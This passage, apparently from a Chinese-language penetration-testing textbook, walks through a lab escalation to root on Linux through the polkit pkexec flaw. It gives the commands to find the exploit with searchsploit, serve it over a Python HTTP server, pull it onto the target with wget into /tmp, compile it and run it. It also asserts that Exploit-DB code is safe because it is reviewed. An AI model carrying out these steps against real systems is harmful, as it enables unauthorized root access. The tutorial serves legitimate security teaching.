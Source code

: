 图 11.15 – searchsploit 搜索结果显示 polkit 漏洞

我们可以使用以下命令列举`polkit`版本：

```
 $ pkexec --version
```

以下图所示的输出显示目标系统的`polkit`版本存在漏洞：

![图 11.16 – pkexec --version 命令揭示目标系统存在漏洞](img/B22229_11_16.jpg)

图 11.16 – pkexec --version 命令揭示目标系统存在漏洞

在尝试利用漏洞之前，我们使用`which gcc`命令检查是否安装了 GCC 编译器。我们发现它已经安装。

我们运行`searchsploit -m 50689`命令，将漏洞代码复制到当前目录。检查该文件的文本，我们发现它包含两个文件的代码，`evil-so.c`和`exploit.c`。

重要提示

在未经检查源代码并确认其中没有恶意内容之前，绝对不要盲目运行漏洞代码和第三方脚本，以免以意外方式利用你或你客户的系统！

由于这个漏洞代码的来源是*Exploit-DB*（**searchsploit**），它是安全的，因为`Offensive Security`在发布漏洞提交之前会对其进行审核。

我们可以将漏洞和脚本传输到目标系统。在 Kali 系统上，创建一个名为`share`的新目录（**mkdir**）。我们永远不希望将我们的主目录或包含敏感信息的任何位置共享到网络。切换到`share`目录（**cd share**），将任何漏洞或脚本复制到该目录，然后启动一个 Python HTTP 服务器，命令如下：`python3 -m http.server`。

在目标系统上，切换到`/tmp`目录（**cd /tmp**）。该目录对所有用户是可写的。`/dev/shm`目录通常也对所有用户是可写的。然后，使用`wget http://192.168.56.11:8000/filename`命令从 Kali 传输文件。当然，请确保根据你的系统修改 IP 地址和文件名。在运行之前，别忘了使你的漏洞或脚本可执行（**chmod +x**）！

在目标系统上，按照下图所示编译漏洞代码：

![图 11.17 – 编译 polkit 漏洞代码](img/B22229_11_17.jpg)

图 11.17 – 编译 polkit 漏洞代码

上图中的输出只是警告，我们使用`ls -l`命令检查文件，发现它们实际上已经被编译。我们通过运行`chmod +x filename`命令更改文件权限，使其可执行，然后运行该漏洞。以下图展示了漏洞的实际操作：

![图 11.18 – 运行 polkit 漏洞代码后获得 root shell](img/B22229_11_18.jpg)
